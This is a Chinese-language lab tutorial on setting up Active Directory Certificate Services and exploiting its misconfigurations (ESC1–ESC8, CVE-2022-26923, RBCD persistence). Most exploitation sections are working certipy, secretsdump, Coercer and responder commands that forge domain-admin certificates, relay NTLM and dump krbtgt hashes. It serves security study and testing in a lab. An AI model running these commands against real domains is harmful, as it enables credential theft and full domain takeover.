



# 域渗透-ADCS 环境搭建及其利用方式 - 先知社区

域渗透-ADCS 环境搭建及其利用方式

- - -

# tips:

搭建问题  
快照进去，证书服务器脱机，下载不了证书  
[https://stealthpuppy.com/resolving-issues-starting-ca-offline-crl/](https://stealthpuppy.com/resolving-issues-starting-ca-offline-crl/)

靶机环境  
DC（域控）win2016 AD  
192.168.142.20

ADCS 证书服务器（辅助域控）ADCS  
192.168.142.21

域用户  
qxn/Penson@2016永遠的神

域管权限登录 adcs 证书服务器安装

# 辅助域控搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220164908-e8ffd5b4-cfcc-1.png)

设置 DSRM 还原密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220164918-eef6c3ec-cfcc-1.png)

复制 ad

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220164959-0755ab10-cfcd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165005-0ad1b41e-cfcd-1.png)

配置角色服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165012-0f2554b2-cfcd-1.png)

选择企业 ca

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165018-12e858f6-cfcd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165022-151d3362-cfcd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165025-16fa647a-cfcd-1.png)

一路下一步即可

配置证书注册 web 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165032-1af9a360-cfcd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165035-1d1a46f4-cfcd-1.png)

下一步到这里

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171147-1345ce48-cfd0-1.png)

等下分配 ssl 证书

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171152-16209a30-cfd0-1.png)

一路下一步即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165048-24ee4236-cfcd-1.png)

ldap 特征

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165055-28c8e35c-cfcd-1.png)

# ESC1

ESC1 是指证书模板允许客户端身份验证并允许登记者提供任意主题备用名称，允许普通用户注册证书，根据存在漏洞的证书模板请求域管证书。

## 环境搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165137-41f9bc3e-cfcd-1.png)

点复制模板

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165144-45ca65d4-cfcd-1.png)

常规那里改为 PensonESC1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165149-48e4ea5a-cfcd-1.png)

安全里点高级选择立即查找 选择 Domain Users

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165154-4c03855c-cfcd-1.png)

加进去后，赋予注册权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165159-4efb50d2-cfcd-1.png)

使用者名称选择在请求中提供，也就是开启 CT\_FLAG\_ENROLLEE\_SUPPLIES\_SUBJECT，选择应用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165204-51c6c85a-cfcd-1.png)

选择创建的新模板

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165217-59916540-cfcd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165235-64ae37dc-cfcd-1.png)

## 漏洞利用

[https://www.adminxe.com/4051.html](https://www.adminxe.com/4051.html)  
假设拿到域账号 qxn

```plain
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.20 -debug -scheme ldap -stdout -vulnerable //ldaps 没开的话
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.20 -stdout -vulnerable //默认 ldaps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165523-c8b5b7fa-cfcd-1.png)

请求域管证书  
target 为 ADCS 证书服务器的 ip，template，ca 要和上面的对的上

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC1 -upn administrator@penson.org
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165537-d0cbe086-cfcd-1.png)

拿 TGT

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -scheme ldap  //ldap

certipy auth -pfx administrator.pfx -dc-ip 192.168.142.21 -ldap-shell  //ldaps


导出 hash
方式一：
secretsdump.py penson.org/administrator@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:e1342d6f7b624f52d60008e44be76aa4
方式二：
export KRB5CCNAME=administrator.ccache
python3 secretsdump.py -k -no-pass AD.penson.org -just-dc-user krbtgt -target 192.168.142.20 -debug
横向移动
smbexec.py -no-pass -k ad.penson.com
```

如果 secretsdump 报错，同步一下时间

```plain
sudo apt install ntpdate
sudo ntpdate 172.16.0.106
```

这里有些环境需要配一下 dns 解析，linux 方便些，所以采用 kali  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165900-4a028090-cfce-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220165609-e3b921ea-cfcd-1.png)

# ESC2

ESC2 是指证书模板可用于任何目的。由于该证书可用于任何目的，因此对于大多数证书模板来说，它可用于与 ESC3 相同的技术。和 ESC1 差别不大

## 环境搭建

刚开始和 esc1 一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170028-7e46609c-cfce-1.png)

应用程序策略这里写无

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170033-815d4566-cfce-1.png)

和 esc1 一样在请求中提供就行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170037-83ab0222-cfce-1.png)

颁布

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170048-8a3c09f6-cfce-1.png)

## 漏洞利用

```plain
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -debug -scheme ldap -stdout -vulnerable //ldaps 没开的话
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.21 -stdout -vulnerable //默认 ldaps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170106-9542e086-cfce-1.png)

注册 esc2 证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -dc-ip 192.168.142.21 -template PensonEsc2 -upn administrator@penson.org -debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170119-9cda79ee-cfce-1.png)

获取 TGT 注意要输入真正的域控 ip，如果不行就去搞 rbcd

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170131-a3d4644e-cfce-1.png)

# ESC3

ESC3 是指证书模板指定证书请求代理 EKU（注册代理）。该 EKU 可用于代表其他用户请求证书。由此可以去申请域管证书。类似委派 s4u2Proxy 那样

## 环境搭建

复制代理注册模板，配置安全和前面一样

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170145-ac528a56-cfce-1.png)

这边的策略是证书申请代理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170149-aed77926-cfce-1.png)

## 漏洞利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170156-b2c0dc76-cfce-1.png)

请求域用户 qxn 的证书

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template PensonESC3
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170209-ba869eb4-cfce-1.png)

请求 adminstrator 证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template User -on-behalf-of 'PENSON\Administrator' -pfx qxn.pfx
```

发现被策略模块拒绝

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170231-c7aaca2a-cfce-1.png)

不知道为啥 kali 环境下可以，欢迎大佬指导

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170235-ca3cabbe-cfce-1.png)

# ESC4

ESC4 是指用户对证书模板具有写入权限。会被滥用来覆盖证书模板的配置，使模板容易受到 ESC1 的攻击。通常是先将证书修改为 ESC1 的利用条件，再利用 ESC1 去构造

## 环境搭建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170359-fbdd0150-cfce-1.png)

属性为写入

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170403-fe797254-cfce-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170409-020178ea-cfcf-1.png)

配置发布要求

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170416-05f93d98-cfcf-1.png)

## 漏洞利用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170424-0ae3283c-cfcf-1.png)

将其修改为 esc1

```plain
certipy template -username qxn@penson.org -password Penson@2016 永遠的神 -template PensonESC4 -dc-ip 192.168.142.21 -save-old
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170432-0f8f45b4-cfcf-1.png)

然后用 esc1 的方式去请求证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template PensonESC4 -upn administrator@penson.org
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170451-1aecd21e-cfcf-1.png)

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170500-2055cd3c-cfcf-1.png)

# ESC6

ESC6 是 CA 指定 EDITF\_ATTRIBUTESUBJECTALTNAME2 标志的时候。无论证书模板如何配置，此标志都允许登记者在所有证书上指定任意 SAN。该攻击与 ESC1 相同。

## 环境搭建

启用 EDITF\_ATTRIBUTESUBJECALTNAME2

```plain
certutil –setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
```

重启服务

```plain
net stop certsvc && net start certsvc
```

该攻击与 ESC1 相同，只是您可以选择允许客户端身份验证的任何证书模版

## 漏洞利用

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User -upn administrator@penson.org
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170556-4198b306-cfcf-1.png)

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170605-46ec3bca-cfcf-1.png)

# ESC7

ESC7 是指用户拥有 CA 的访问权限 Manage CA，可以使用它来颁发或拒绝待处理的证书请求。从而请求域管证书

## 环境搭建

在 ADCS 服务器上证书颁发机构给 User 添加权限  
在 ADCS 服务器上证书颁发机构给 Users 用户添加“颁发和管理证书”，“管理 CA”权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170613-4c367262-cfcf-1.png)

## 漏洞利用

添加用户到管理员

```plain
certipy ca -ca 'penson-ADCS-CA' -add-officer qxn -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170631-568df4c4-cfcf-1.png)

SubCA 可以使用参数在 CA 上启用该模板-enable-template。默认情况下，SubCA 模板已启用

```plain
certipy ca -ca 'penson-ADCS-CA' -enable-template SubCA -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21 -debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170639-5b62afb2-cfcf-1.png)

请求证书

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21 -ca penson-ADCS-CA -template SubCA -upn administrator@penson.org
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170650-622aa7c8-cfcf-1.png)

该请求将被拒绝，但我们将保存私钥并记下请求 ID。

再次请求

```plain
certipy ca -ca 'penson-ADCS-CA' -issue-request 33 -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170702-6903d9ac-cfcf-1.png)

最后，我们可以使用 req 命令和-retrieve <request id="">参数检索颁发的证书。</request>

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -retrieve 33
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170728-78ef2c5e-cfcf-1.png)

# ESC8

ESC8 是指注册服务已安装并通过 HTTP 启用 Web 注册，从而可以利用 NTLM 中继。这个实战环境好像挺难，因为需要目标向监听服务器发起请求，内网基本不出网，不知道大佬操作了，估计别的大哥有别的方式。

## 环境搭建

Iis 管理  
在 ADCS 服务中，管理员可以添加基于 HTTP 的证书注册服务，而这种基于 HTTP 的证书接口，特别容易受到 NTML 中继攻击，通过 NTML 中继攻击，可以窃取任何进行 NTML 身份认证的 AD 用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170805-8e74cbc4-cfcf-1.png)

选择 certSrv 身份认证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170809-9152218e-cfcf-1.png)

## 漏洞利用

certipy 可以直接进行监听，去申请域管的证书

```plain
certipy relay -target 'http://192.168.142.21' -template DomainController
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170823-99848ea0-cfcf-1.png)

使用[https://github.com/p0dalirius/Coercer强制身份认证](https://github.com/p0dalirius/Coercer%E5%BC%BA%E5%88%B6%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81)

```plain
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170835-a05367e2-cfcf-1.png)  
拿 ad.pfx 证书去导 hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170850-a94462ca-cfcf-1.png)

也可以用 responder 监听

```plain
responder --interface eth0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170859-aec48f22-cfcf-1.png)

发起请求

```plain
./Coercer.py coerce -l 192.168.21.101 -t 192.168.142.21 -u 'qxn' -p 'Penson@2016 永遠的神' -d penson.org -v
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170904-b1ab11e8-cfcf-1.png)

拿到 ADCS$的 NTLM v2，去爆破解密就行

# CVE-2022-26923（ADCS 提权漏洞）

Active Directory 域权限提升漏洞 (CVE-2022-26963 ) 允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员，修改 DNSHostname 为域控机器即可伪造域控机器申请证书

## 漏洞利用

先申请低权限账户证书

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User
```

创建机器账户，并把 DNSHostname 改为域控的 DNSHostname

```plain
certipy account create -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21 -user machine1  -dns "AD.penson.org"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170932-c26c393a-cfcf-1.png)

获取 Machine 账户证书

```plain
certipy req -username machine1\$@penson.org -password NmfsMZd6cygHXnYM -target 192.168.142.21 -ca penson-ADCS-CA -template Machine
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170941-c7ac52fe-cfcf-1.png)

可以发现已经变成 ad 的证书了

验证证书，拿到机器账户 AD$的 hash

```plain
certipy auth -pfx ad.pfx -dc-ip 192.168.142.20 -debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170949-ccbb245a-cfcf-1.png)

secrectdump

```plain
secretsdump.py penson.org/ad\$@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:c0032e2567e4f12b7f8ba3e436db4177
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220170959-d2e78d96-cfcf-1.png)

# 权限维持

## RBCD（基于资源约束委派）

可以用 bloodyAD，也可以用新版的 certipy 直接添加 rbcd 进行权限维持  
进入 ldap-shell

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20 -ldap-shell
```

```plain
add_computer penson$ penson123 #添加机器账户
set_rbcd AD$ penson$ #添加到 AD 的基于资源约束委派
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171030-e524ac6e-cfcf-1.png)

请求票据

```plain
python3 getST.py -spn cifs/AD.penson.org -impersonate administrator -dc-ip 192.168.142.20 penson.org/penson$:penson123
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220171038-ea3af38e-cfcf-1.png)

参考文献  
[https://forum.butian.net/share/1583](https://forum.butian.net/share/1583)  
[https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/](https://t0ngmystic.com/sec/ad%E5%9F%9F-adcs%E9%94%99%E8%AF%AF%E9%85%8D%E7%BD%AE-esc8/)  
[https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)  
[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)
